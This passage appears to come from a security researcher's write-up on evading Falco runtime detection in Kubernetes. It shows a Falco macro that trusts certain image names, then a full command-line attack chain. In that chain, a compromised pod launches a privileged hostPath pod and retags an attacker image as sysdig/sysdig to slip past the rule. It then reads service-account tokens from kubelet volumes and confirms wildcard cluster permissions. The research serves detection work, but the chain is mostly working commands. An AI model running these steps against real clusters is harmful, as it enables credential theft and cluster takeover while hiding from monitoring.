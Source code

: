 ```
- macro: k8s_containers
  condition: >
    (container.image.repository in (gcr.io/google_containers/hyperkube-amd64,
     gcr.io/google_containers/kube2sky,
     docker.io/sysdig/sysdig, docker.io/falcosecurity/falco,
     sysdig/sysdig, falcosecurity/falco,
     fluent/fluentd-kubernetes-daemonset, prom/prometheus,
     ibm_cloud_containers)
     or (k8s.ns.name = "kube-system"))
```

Of course, we cannot modify the image name in the original repo, but we can "tag" our malicious image within the context of the local daemon. And the full attack chain looks as follows:

```
[Compromised Pod]
dashboard@dashboard-56755cd6c9-gg9w8:/tmp$ ./kctl run r00t3 --restart=Never -ti--rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"sshayb/fuber:latest","command":["/tmp/gbash"],"stdin": true,"tty":true,"volumeMounts": [{"mountPath": "/var/run","name": "test1"},{"mountPath": "/var/lib","name": "test2"}],"imagePullPolicy":"IfNotPresent"}],"volumes": [{"name":"test1","hostPath":{"path": "/var/run"}},{"name":"test2","hostPath":{"path": "/var/lib"}}]}}'
If you don't see a command prompt, try pressing enter.
root@r00t3:/tmp# ./gdocker pull sshayb/fuber:latest
latest: Pulling from sshayb/fuber
Digest: sha256:7dc92083c2b5524103988234902ac20ccbebc326d4c04cd5ab9163b9ef69d725
Status: Image is up to date for sshayb/fuber:latest
docker.io/sshayb/fuber:latest
root@r00t3:/tmp# ./gdocker tag sshayb/fuber:latest sysdig/sysdig
root@r00t3:/tmp# env | grep KUBE
...
KUBERNETES_SERVICE_PORT=443
KUBERNETES_SERVICE_HOST=10.84.0.1
root@r00t3:/tmp# ./gdocker run --rm -it -v /var/lib:/var/lib sysdig/sysdig
root@8e5d231f002d:/tmp# ls
docker  fubers  gbash  gdocker  gkubectl  runc-nsenter
root@8e5d231f002d:/tmp# grep -iIrn kube-system /var/lib/kubelet/pods/*/volumes/kubernetes.io~secret/*/namespace
...
var/lib/kubelet/pods/dc186c2c-4990-4415-91d7-e04c1da8b091/volumes/kubernetes.io~secret/metrics-server-token-ckwnp/namespace:1:kube-system
/var/lib/kubelet/pods/e9349520-b007-4d33-9924-2fb25efdd891/volumes/kubernetes.io~secret/default-token-lg5nm/namespace:1:kube-system
...
root@8e5d231f002d:/tmp# cat /var/lib/kubelet/pods/e9349520-b007-4d33-9924-2fb25efdd891/volumes/kubernetes.io~secret/default-token-lg5nm/token
eyJh......0rxgzaSQ
root@8e5d231f002d:/tmp# TOKEN=eyJhbG...gzaSQ
root@8e5d231f002d:/tmp# KUBERNETES_SERVICE_PORT=443
root@8e5d231f002d:/tmp# KUBERNETES_SERVICE_HOST=10.84.0.1
root@8e5d231f002d:/tmp# ./gkubectl --token "$TOKEN" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT --cache-dir=/tmp auth can-i --list
warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                                       Non-Resource URLs   Resource Names   Verbs
*.*                                             []                  []     [*]
                                                [*]                 []     [*]
selfsubjectaccessreviews.authorization.k8s.io   []                  []     [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []
...
-----
[Falco]
```

[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS